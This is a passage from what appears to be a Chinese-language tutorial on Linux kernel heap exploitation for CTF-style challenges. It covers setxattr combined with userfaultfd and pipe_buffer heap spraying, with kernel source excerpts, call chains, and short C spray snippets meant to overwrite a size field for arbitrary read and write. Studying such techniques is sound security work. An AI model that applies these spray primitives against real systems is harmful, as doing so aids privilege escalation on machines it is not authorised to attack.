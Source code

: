 ```c
			goto out;
		}
		if ((strcmp(kname, XATTR_NAME_POSIX_ACL_ACCESS) == 0) ||
		    (strcmp(kname, XATTR_NAME_POSIX_ACL_DEFAULT) == 0))
			posix_acl_fix_xattr_from_user(kvalue, size);
	}

	error = vfs_setxattr(d, kname, kvalue, size, flags);
out:
	kvfree(kvalue);											// [3] 释放空间

	return error;
}
```

**释放**：与产生路径相同。

**备注**：与userfaultfd结合使用。弥补`msgsnd`前48字节无法覆盖的缺陷。

```c
	void *addr;
    addr = mmap(NULL, 0x1000, 3, 0x22, -1, 0); /* TODO */
    setxattr("/etc/passwd", "user.test", addr, 0x400, 1); /* TODO */
```

#### 4. pipe() —— [pipe_buffer](https://elixir.bootlin.com/linux/v5.11.14/source/include/linux/pipe_fs_i.h#L26)

**参考**：[【内核漏洞利用】WCTF 2018 klist—竞争UAF-pipe堆喷](https://blog.csdn.net/panhewu9919/article/details/100728934)  [linux kernel pwn学习之条件竞争(一)](https://blog.csdn.net/seaaseesa/article/details/104649351)

**write链**：[write](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L670) -> [ksys_write](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L658) -> [vfs_write](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L605) -> [new_sync_write()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L518) -> [call_write_iter()](https://elixir.bootlin.com/linux/v5.11.14/source/include/linux/fs.h#L1898) -> [pipe_write()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/pipe.c#L401)  将数据写入了`pipe_buffer->page`中（页=4k），所以**不能任意布置数据**，参考中用到pipe堆喷是因为`pipe_buffer->offset`和`pipe_buffer->len`恰好将改题中结构的第2个8字节—`size`覆盖很大，导致越界读写。

**read链**：[read](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L644) -> [ksys_read()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L634) -> [vfs_read()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L496) -> [new_sync_read()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/read_write.c#L404) -> [call_read_iter()](https://elixir.bootlin.com/linux/v5.11.14/source/include/linux/fs.h#L1892) -> [pipe_read()](https://elixir.bootlin.com/linux/v5.11.14/source/fs/pipe.c#L215)

**构造**：

```c
	#define SIZE 0x280
	char* buf2 = malloc(SIZE);	
    memset(buf2, 'E', SIZE);
    int fds[2];

    pipe(&fds[0]);
    // 堆喷，把结构中的size域覆盖很大，这样就能任意读写
    for(int i = 0; i < 9; i++)
      write(fds[1], buf2, SIZE); 
```
